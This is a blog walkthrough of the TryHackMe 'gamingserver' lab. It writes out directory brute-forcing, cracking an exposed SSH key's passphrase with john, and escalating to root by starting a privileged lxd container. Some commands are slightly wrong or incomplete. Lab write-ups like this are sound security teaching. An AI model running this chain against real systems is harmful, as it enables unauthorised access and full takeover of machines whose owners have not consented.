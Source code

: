 <!-- wp:paragraph -->
<p>https://tryhackme.com/room/gamingserver</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Start a nmap scan to look for open ports.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":1037,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-78.png?w=569" alt="" class="wp-image-1037"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Use gobuster look for hidden directories.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":1043,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-82.png?w=835" alt="" class="wp-image-1043"/><figcaption>Found a potential user on the source code: john</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>obuster dir -u 10.10.145.137 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":1038,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-79.png?w=821" alt="" class="wp-image-1038"/></figure>
<!-- /wp:image -->

<!-- wp:image {"id":1040,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-80.png?w=561" alt="" class="wp-image-1040"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Download the dict.lst file.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":1041,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-81.png?w=559" alt="" class="wp-image-1041"/><figcaption>Download the secretKey file which is a private key.</figcaption></figure>
<!-- /wp:image -->

<!-- wp:image {"id":1045,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-83.png?w=367" alt="" class="wp-image-1045"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>The private key needs a passphrase.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Use johntheripper to crack he passphrase.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>python ssh2john.py secretKey > secretkey.hash</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>john secretkey.hash -wordlist dict.lst</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":1047,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-84.png?w=741" alt="" class="wp-image-1047"/><figcaption>passphrase found: letmein</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>SSH to the user.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":1049,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-85.png?w=755" alt="" class="wp-image-1049"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>First flag is found.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Start up python server and transfer linpeas to find for clues.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":1051,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-86.png?w=860" alt="" class="wp-image-1051"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>The machine can be exploited by lxd</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Head to your main machine and execute the following commands.</p>
<!-- /wp:paragraph -->

<!-- wp:code -->
<pre class="wp-block-code"><code>git clone https://github.com/saghul/lxd-alpine-builder.git

cd lxd-alpine-builder

sudo ./build-alpine</code></pre>
<!-- /wp:code -->

<!-- wp:paragraph -->
<p>Transfer the file to the victim machine and execute the following commands.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":1057,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-89.png?w=1024" alt="" class="wp-image-1057"/></figure>
<!-- /wp:image -->

<!-- wp:code -->
<pre class="wp-block-code"><code>lxc image list

lxc image import ./alpine-v3.15-x86_64-20220414_2008.tar.gz --alias myimage

lxc init myimage ignite -c security.previleged=true

lxc init myimage ignite -c security.privileged=true

lxc start ignite

lxc exec ignite /bin/sh
</code></pre>
<!-- /wp:code -->

<!-- wp:image {"id":1055,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large"><img src="https://persecure.files.wordpress.com/2022/04/image-88.png?w=439" alt="" class="wp-image-1055"/></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Root access is gained and final flag is found.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p></p>
<!-- /wp:paragraph -->
